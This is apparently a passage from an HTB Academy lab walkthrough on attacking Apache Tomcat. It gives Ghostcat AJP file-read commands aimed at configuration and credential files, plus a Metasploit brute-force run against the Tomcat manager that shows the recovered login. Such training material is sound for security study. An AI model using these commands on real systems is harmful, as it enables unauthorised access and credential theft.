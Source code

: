 ```bash

# Files potentially accessible:
# WEB-INF/web.xml             # Application descriptor
# META-INF/context.xml        # Context configuration
# WEB-INF/classes/*.properties # Application properties
# WEB-INF/lib/*.jar           # JAR file contents (limited)
```

#### Exploitation Enhancement Techniques
```bash
# Combine Ghostcat with other attack vectors:

# 1. Configuration disclosure -> credential extraction
python2.7 tomcat-ajp-lfi.py target -p 8009 -f WEB-INF/classes/database.properties

# 2. Application mapping -> attack surface expansion
python2.7 tomcat-ajp-lfi.py target -p 8009 -f WEB-INF/web.xml | grep -A 5 -B 5 "servlet-mapping"

# 3. Framework identification -> specific exploit selection
python2.7 tomcat-ajp-lfi.py target -p 8009 -f WEB-INF/lib/spring-core.jar

# 4. Custom application analysis -> business logic flaws
python2.7 tomcat-ajp-lfi.py target -p 8009 -f WEB-INF/classes/com/company/config/SecurityConfig.class
```

---

## HTB Academy Lab Solutions

### Lab 1: Manager Brute Force Attack
**Question:** "Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?"

**Solution Methodology:**

#### Step 1: Environment Setup
```bash
# Add VHost entry to /etc/hosts
echo "10.129.201.58 web01.inlanefreight.local" >> /etc/hosts

# Verify target accessibility
curl -I http://web01.inlanefreight.local:8180/manager/html
# Expected: HTTP 401 Unauthorized (authentication required)
```

#### Step 2: Metasploit Brute Force Execution
```bash
# Launch Metasploit and configure scanner
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login

# Configure target parameters
set VHOST web01.inlanefreight.local
set RPORT 8180
set RHOSTS 10.129.201.58
set STOP_ON_SUCCESS true

# Execute brute force attack
run

# Monitor output for successful authentication:
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin

```